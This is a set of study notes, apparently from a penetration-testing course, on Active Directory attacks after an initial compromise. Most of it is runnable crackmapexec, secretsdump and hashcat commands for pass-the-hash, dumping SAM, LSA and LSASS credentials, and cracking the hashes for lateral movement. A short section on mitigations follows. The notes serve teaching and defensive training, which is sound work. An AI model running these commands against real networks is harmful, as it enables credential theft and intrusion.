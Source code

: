 # Active Directory Post-Compromise Attacks

### Introduction

What happens after we have an account?

Moving vertically and laterally

### Pass Attacks Overview

**Pass the Password/Pass the Hash**

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

**Pass the Password**

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Grab hashes with Metasploit's `hashdump` or with Impacket's secretsdump if we have access to an Admin account

`impacket-secretsdump domain/user:password@10.0.0.1`

**Pass the Hash**

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth`

We can use CME to dump valuable data

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --sam`

Enumerate shares

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --shares`

Dump the Local Security Authority (LSA)

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --lsa`

CME also has built-in modules, list them with `crackmapexec smb -L`

lsassy allows us to dump the [Local Security Authority Subsystem Service (LSASS)](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

Allows us to access credentials that may not be dumped with secretsdump 

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth -M lsassy`

There's also a database for CME called the `cmedb`

### Pass Attacks Lab

Example attack

Run a pass the password attack with the credentials recovered from our initial attacks then use the access 
found with CME to start dumping data

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Pass the hash attacks *only work with NTLMv1*

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth`

Run CME to dump the SAM hashes when we pwn some machines, the hashes will be added to the cmedb

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --sam`

Enumerate the shares

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --shares`

Dump the LSA, will also be dumped by secretsdump

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --lsa`

mscache hashes (DCC2) will be dumped and can be cracked so look for Domain Administrator account names

`hashcat -m 2100 -O hash.txt rockyou.txt`

If the password has a date try incrementing it, if it has multiple symbols e.g. !!!, try adding an additional 
symbol

Use CME modules to see what else the credentials can do (GPP password, impersonate, keepass file discovery, 
etc.)

`crackmapexec smb -L`

Run lsassy to dump any secrets stored in memory (NTLM hashes of logged in users)

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth -M lsassy`

Use the CME DB to view hosts, credentials, shares, etc. that were found while using CME

### Dumping and Cracking Hashes

Run secretsdump on a target you have credentials for

`secretsdump.py DOMAIN.com/user:password@10.0.0.1`

Grab SAM hashes for the users, DCC2 hashes, cleartext passwords, wdigest (older protocol, enabled by default 
on older systems)

Look for old systems as we may find cleartext Domain Admin passwords

wdigest can be force enabled, then wait for a user to log in to grab cleartext password of the user

Write a bash one-liner to dump the cmedb hosts and then use the found credentials to run secretsdump against 
all the hosts

Hashes can also be used

`secretsdump.py administrator:@10.0.0.1 -hashes hash`

Crack the hashes with the NT part -> LM:NT

`hashcat -m 1000 hash.txt rockyou.txt`

Example lateral movement with credentials:

Initial compromise of hash/credentials -> crack hash/use hash to secretsdump -> spray network with password 
-> find logins -> use secretsdump -> local admin hashes -> respray the network with local admin accounts

### Pass Attack Mitigations

Hard to completely prevent, but we can make it more difficult for an attacker

Limit account re-use:

- Avoid re-using local admin passwords
- Disable Guest and Administrator accounts
- Limit who is a local admin (least privilege)

Utilize strong passwords:

- The longer the better (>14 chars)
- Avoid using common words
- Long sentences can be good

Privilege Access Management (PAM):

- Check out/in sensitive accounts when needed
- Automatically rotate passwords on check out and check in
- Limits pass attacks as hash/password is strong and constantly rotated


